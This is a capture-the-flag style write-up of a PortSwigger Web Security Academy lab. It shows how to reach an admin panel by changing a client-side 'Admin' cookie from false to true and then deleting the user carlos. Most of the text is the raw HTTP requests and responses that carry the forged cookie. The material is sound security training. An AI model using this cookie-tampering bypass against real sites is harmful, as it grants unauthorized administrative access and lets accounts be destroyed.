## Lab: User role controlled by request parameter
This lab has an admin panel at `/admin`, which identifies administrators using a forgeable cookie.

Solve the lab by accessing the admin panel and using it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution
Start by logging in with the credentials we have. After logging in we send the request to the repeater.

Request:
```http
GET /my-account?id=wiener HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=false; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
Here we see a cookie named "Admin" set to false. Let's change this to true and try to access ```/admin```.
Request:
```http
GET /admin HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=true; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3115

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>User role controlled by request parameter</title>
    </head>
    <body>
**********SNIP***********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
                    </section>
**********SNIP***********
    </body>
</html>

```
Here we find the delete endpoint again.

Request:
```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=true; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![](../img/Solved_the_Lab.png)

## Alternative:
We could also, after login, change the cookie value in the browser to get access to the Admin panel link and delete the user through the browser.  
![](../img/Cookie_Browser_Alternative_Lab_2.png)
